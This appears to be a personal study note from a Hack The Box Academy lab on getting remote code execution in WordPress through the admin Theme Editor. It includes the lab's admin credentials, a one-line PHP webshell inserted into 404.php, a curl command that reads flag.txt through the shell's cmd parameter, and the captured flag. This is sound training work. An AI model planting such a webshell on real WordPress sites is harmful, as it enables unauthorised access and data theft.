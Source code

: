 Project:: HTB
Type:: CBBH
Progress:: Completed
Tags:: #ThemeEditor 
Sites:: [HTB Academy](https://academy.hackthebox.com/module/17/section/60)
BackLinks:: [[WordPress]], [[RCE]]
OS related:: 
Walkthrough:: 
Note:: I can't use `php-reverse-shell.php` like THM's Internal (Can search in Obsidian. I don't want to tag something that can't be used)

---
## Use the <mark style="background: #FFB86CA6;">credentials</mark> for the admin user <mark style="background: #FFB86CA6;">[admin:sunshine1]</mark> and <mark style="background: #FFB86CA6;">upload a webshell</mark> to your target. Once you have access to the target, obtain the contents of the <mark style="background: #FF5582A6;">"flag.txt"</mark> file in the <mark style="background: #FFB86CA6;">home directory</mark> for the <mark style="background: #FFB86CA6;">"wp-user"</mark> directory.
- `HTB{rc3_By_d3s1gn}`
	- access `wp-admin`
	- edit `404.php` using #ThemeEditor (use doc)
		```php hl:1
		system($_GET['cmd']);
		```
		- ![[Pasted image 20231228025600.png]]
	- Get flag
		```txt hl:2 ans:3
		╭─ /mn/H/No/CyberVault/Hac/A/B/Hacking Wordpess/3_Exploitation/13_RCE via the Theme Editor ········ ✔  13:53:41
		╰─ curl -X GET "http://$ip:$port/wp-content/themes/twentyseventeen/404.php?cmd=cat%20/home/wp-user/flag.txt"
		HTB{rc3_By_d3s1gn}
		```

